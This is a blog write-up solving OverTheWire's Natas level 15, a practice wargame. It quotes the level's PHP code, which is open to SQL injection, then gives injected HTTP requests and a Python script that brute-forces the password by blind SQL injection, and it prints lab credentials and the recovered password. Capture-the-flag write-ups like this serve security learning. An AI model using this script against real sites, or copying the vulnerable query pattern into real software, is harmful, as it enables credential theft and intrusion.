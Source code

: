 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 15"
date:   2015-09-21
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 15 > Level 16

![natas15-01](/img/otw-natas/natas15-01.png)

```
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

This time around, nothing is returned - just a yes/no if the user exists (or, really, if our query results in any result). First, we'll guess that the username is natas16 using a stripped-down HTTP request that will be the basis of our later attack.

```
POST /index.php?debug HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

username=natas16
```

```
<h1>natas15</h1>
<div id="content">
Executing query: SELECT * from users where username="natas16"<br>This user exists.<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

If we inject a statement that checks the username and only the first character of the password, we can loop through all letters and numbers to determine it. If successful, this can be expanded for each character position until we have the full password.

First, a POC in Burp Intruder. The request is as follows, where X is the character to iterate.

```
POST /index.php?debug HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

username=natas16" and LEFT(password, 1)="X
```

![natas15-02](/img/otw-natas/natas15-02.png)

One payload results in a reponse with a suspiciously different length. "This user exists," it says - bingo.

As it turns out, the first character is 'W' and not 'w' as shown in Burp. As discussed [here](http://stackoverflow.com/questions/5629111/how-can-i-make-sql-case-sensitive-string-comparison-on-mysql), certain string comparisons are not case sensitive. The addition of BINARY as used in the injection code below fixes this issue.

The ugliness below is a hastily-written solution which bruteforces each individual character. I prefer crafting the request myself and sending it to a socket rather than using an HTTP library as it is easier to debug and offers tremendous flexibility. The `natas15(p)` function returns a boolean after trying password p. The loops walk through the problem in the most straightfoward way - keep trying characters at a given position until you find one, and keep adding a position until one is found for which no characters match.

```
import socket

HOST = "natas15.natas.labs.overthewire.org"
PORT = 80
HEAD = """POST /index.php HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: {clength}\r\n\r\n"""
POST = 'username=natas16" and BINARY LEFT(password, {glength})="{guess}'
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas15(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    TPOST = POST.format(glength=len(p), guess=p)
    REQU = HEAD.format(clength=len(TPOST)) + TPOST
    s.send(REQU)

    r = s.recv(8192)
    s.close()
    
    if "This user exists." in r:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas15(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

Success.

![natas15-03](/img/otw-natas/natas15-03.png)

WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
